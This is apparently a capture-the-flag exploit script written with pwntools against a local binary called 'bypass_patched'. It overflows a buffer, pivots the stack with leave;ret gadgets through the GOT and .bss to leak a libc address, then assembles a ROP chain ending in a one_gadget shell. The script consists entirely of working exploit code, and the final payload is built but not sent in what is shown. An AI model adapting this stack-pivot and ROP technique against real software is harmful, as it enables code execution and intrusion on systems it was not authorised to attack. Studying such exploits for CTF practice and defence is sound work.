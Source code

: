 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bypass_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

gdb.attach(p,gdbscript='''
          b*0x00000000004011bc
          b*0x00000000004011de

          ''')

gets_gadget = 0x00000000004011b0
puts_gadget = 0x00000000004011d0
leave_ret = 0x00000000004011dd
bss = 0x404000+0x600
bss2 = 0x404000+0x400

#input()
pl1 = flat(
        'a'*0x50,
        exe.got.puts+0x50+0x50,   #saved_rbp1
        gets_gadget,  #saved_rip1
        )

p.sendlineafter(b'string\n',pl1)

pl2 = flat(
        bss2+0x10,  #saved_rbp_4
        leave_ret, #saved_rip_4
        'a'*0x40,
        bss2,  #saved_rbp_2
        leave_ret, #saved_rip_2
        'a'*(0x390-16-0x48),
        exe.got.puts+0x50, #saved_rbp_3
        puts_gadget, #saved_rip_3
        0,  #saved_rbp_5
        exe.sym.main #saved_rbp_6
        )
input()
p.sendline(pl2)

p.recvuntil(b'You typed: ')
p.recvlines(4)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x80e50
log.info(f'leak libc: {hex(libc.address)}')

pop_rdi = 0x000000000002a3e5 + libc.address
pop_rsi = 0x000000000002be51 + libc.address
pop_rdx_r12 = 0x000000000011f2e7 + libc.address
onegadget = 0xebc88+libc.address

pl3 = b'a'*0x50
pl3 += p64(bss)
pl3 += p64(pop_rsi) + p64(0) + p64(pop_rdx_r12) + p64(0)*2 + p64(onegadget)

input()
```